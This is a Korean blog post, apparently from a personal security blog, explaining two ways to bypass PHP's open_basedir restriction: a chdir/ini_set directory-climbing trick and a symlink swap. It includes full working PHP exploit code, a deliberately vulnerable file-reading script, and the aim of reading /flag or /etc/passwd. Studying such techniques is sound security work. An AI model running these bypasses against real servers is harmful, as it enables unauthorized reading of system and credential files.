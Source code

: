 ```yaml
---
layout: post
title: "PHP Open_basedir bypass"
description: "PHP Open_basedir bypass."
categories: PHP, bypass, open_basedir

---
```


## 시작하기에 앞서

오탈자, 혹은 잘못된 부분은 언제든 환영합니다 :)

## 왜 갑자기 open_basedir?

잠자기전 트위터를 보다가 굉장히 흥미로운 트윗을 보았습니다. Thanks to, [@Blaklis_](<https://twitter.com/Blaklis_>)

> **Source :** https://twitter.com/Blaklis_/status/1111586655134203904

처음에는 단순히 라업을 적은듯 하였는데, 내용을 읽어보니 일단 제가 모르는 것이었습니다.  [[Go to link]](<http://91.121.31.50/phuck3.txt>)

요약을 하자면 open_basedir이 설정되어있을 경우, 이를 우회해 /(root)로 변경이 가능합니다.

이말은 즉,  open_basedir이 /var/www/html에 걸려있더라도 /etc/passwd와 같은 서버 설정파일을 읽을 수 있다는 것입니다. 

총 2가지 방법(subdirectory, symlink)을 통해 open_basedir을 우회하려고 합니다.

## open_basedir bypass

#### Initialize Setting

서버의 설정(php.ini)는 다음과 같습니다.

```ini
open_basedir = /var/www/html
```

index.php의 소스는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
echo file_get_contents($_GET['f']);
```

/flag를 읽을려고 하면 당연히 에러(open_basedir restriction in effect)가 발생할 것입니다.

참고로 정상적인 경우 open_basedir을 /로 변경해도, open_basedir은 변경되지 않습니다. 고로 /flag를 읽을 수 없습니다.

이제 이를 우회하여 /flag파일을 읽어봅니다.

#### 1 - Using subdirectory

subdirectory를 이용하여 open_basedir을 /로 변경하는 방법입니다.

이를 위해서는 open_basedir안에 폴더가 존재해야합니다.

테스트를 위한 서버의 구조는 다음과 같습니다.

```
root@shpik:/var/www/html/shpik/04# ls -al
total 20
drwxr-xr-x 3 root root 4096 Apr  5 04:45 .
drwxr-xr-x 6 root root 4096 Apr  5 04:16 ..
-rw-r--r-- 1 root root  341 Apr  5 04:21 index.php
drwxr-xr-x 2 root root 4096 Apr  5 04:19 mashiro
-rw-r--r-- 1 root root  100 Apr  5 04:45 test.php
```

mashiro라는 폴더를 이용하여 /flag파일을 읽어봅시다.

코드는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
chdir('mashiro');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents($_GET['f']);
```

open_basedir을 우회하여 /flag파일이 정상적으로 읽힙니다.

#### 2 - Using symlink

/를 가르키는 symlink를 생성하여 open_basedir을 우회하는 방법입니다.

이는 ../를 이용해 parent directory로 이동하기 때문에 적당한 깊이의 폴더가 필요합니다.

```
root@shpik:/var/www/html/shpik/04/symlink# tree
.
├── a
│   └── b
│       └── c
│           └── d
│               └── e
│                   └── f
│                       └── g
│                           └── h
│                               └── j
│                                   └── j
│                                       └── k
└── index.php
```

이를 링크로 하나 만들어줍니다.

```php
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
```

그러면 아래와 같은 symlink가 생성됩니다.

```
shiina -> /var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k
```

위에서 생성한 symlink(shiina) 기준으로 하위로 내려가는 symlink(goto)를 하나 더 생성해줍니다.

그리고 ini_set을 통해 open_basedir을 재 설정해주는데, 방금 생성한 symlink(goto/)를 추가해줍니다.

마지막으로 symlink(shiina)는 unlink해줍니다. 

```php
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
```

그러면 goto라는 symlink는 /를 가르키게 되고 `file_get_contents('goto/flag');`를 하게 되면 open_basedir을 우외하여 파일을 읽을 수 있습니다. 아래는 풀 코드입니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
echo file_get_contents('./goto/flag');
highlight_file(__FILE__);
```
